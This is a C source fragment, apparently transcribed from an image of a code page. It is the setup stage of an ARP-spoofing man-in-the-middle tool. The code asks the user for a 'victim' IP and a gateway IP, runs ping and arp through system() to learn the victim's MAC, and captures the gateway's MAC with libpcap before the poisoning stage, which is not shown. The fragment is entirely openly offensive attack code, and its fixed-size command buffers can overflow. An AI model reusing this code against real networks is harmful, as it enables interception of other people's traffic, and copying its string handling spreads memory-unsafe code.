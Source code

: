 ```c
  static struct ifreq req;
  sockfd = socket(PF_INET, SOCK_DGRAM, 0);
  strcpy(req.ifr_name, dev);
  ioctl(sockfd, SIOCGIFHWADDR, &req);
  print_mac((u_char *)req.ifr_hwaddr.sa_data);
  memcpy(ATTACKER_MAC, (u_char *)req.ifr_hwaddr.sa_data, 6);
  printf("\n");

  /* enter victim's ip */
  printf("Please enter your victim's IP (format: 192.168.1.0)\n");
  scanf("%hhd.%hhd.%hhd.%hhd", &TARGET_IP[0], &TARGET_IP[1], &TARGET_IP[2], &TARGET_IP[3]);

  /* enter gatewat's ip */
  printf("Please enter your gateway's IP (format: 192.168.1.0)\n");
  scanf("%hhd.%hhd.%hhd.%hhd", &GATEWAY_IP[0], &GATEWAY_IP[1], &GATEWAY_IP[2], &GATEWAY_IP[3]);

  /* get attack resource */
  printf("\nGetting your victim's MAC......\n");
  char ip[20], ping[40] = "ping -c 3 > data/ping.txt ", arp[30] = "arp -e > data/arp.txt ", data[300];
  sprintf(ip,"%d.%d.%d.%d", TARGET_IP[0], TARGET_IP[1], TARGET_IP[2], TARGET_IP[3]);
  strcat(ping, ip), system(ping);
  strcat(arp, ip), system(arp);
  FILE* fp = fopen("data/arp.txt", "r");
  fgets(data, 300, fp);
  fgets(data, 300, fp);
  char *p = strstr(data, "ether");
  if (p == NULL) {
    printf("Not found!\n");
    exit(1);
  }
  get_mac(TARGET_MAC, p + 8);
  printf("His MAC is: ");
  print_mac(TARGET_MAC);
  printf("\n");

  /* get gateway's mac */
  printf("Geting gateway's MAC\n");
  struct bpf_program filter;
  char filter_app[20] = "src ";
  char gateway[15];
  sprintf(gateway, "%d.%d.%d.%d", GATEWAY_IP[0], GATEWAY_IP[1], GATEWAY_IP[2], GATEWAY_IP[3]);
  strcat(filter_app, gateway);
  pcap_compile(handle, &filter, filter_app, 0, *net);
  pcap_setfilter(handle, &filter);
  pcap_loop(handle, 1, getgateway, NULL);
  arg->TARGET_IP = TARGET_IP;
  arg->TARGET_MAC = TARGET_MAC;
  arg->ATTACKER_MAC = ATTACKER_MAC;
  arg->GATEWAY_IP = GATEWAY_IP;
  arg->GATEWAY_MAC = GATEWAY_MAC;
  pcap_close(handle);
}
```
